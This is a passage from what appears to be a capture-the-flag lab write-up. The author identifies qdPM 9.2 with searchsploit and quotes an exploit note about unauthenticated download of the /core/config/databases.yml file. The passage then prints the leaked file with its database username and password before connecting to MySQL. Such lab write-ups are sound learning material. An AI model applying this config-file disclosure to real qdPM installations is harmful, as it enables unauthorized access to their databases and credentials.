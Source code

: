 <br>
# Exploitation
-----------
## Identification and exploitation of vulnerabilities
------------

![](/assets/images/vh-ica1/searchsploit.png)

**searchsploit** found 2 exploits for the version 9.2 of qdPM. I'll focus on this project management tool, since we have to discover someting about a project. Let's see the second exploit.

```
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.#
```

I'll download databases.yml and connect to the DB.

```yml
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true
```

![](/assets/images/vh-ica1/mysql.png)
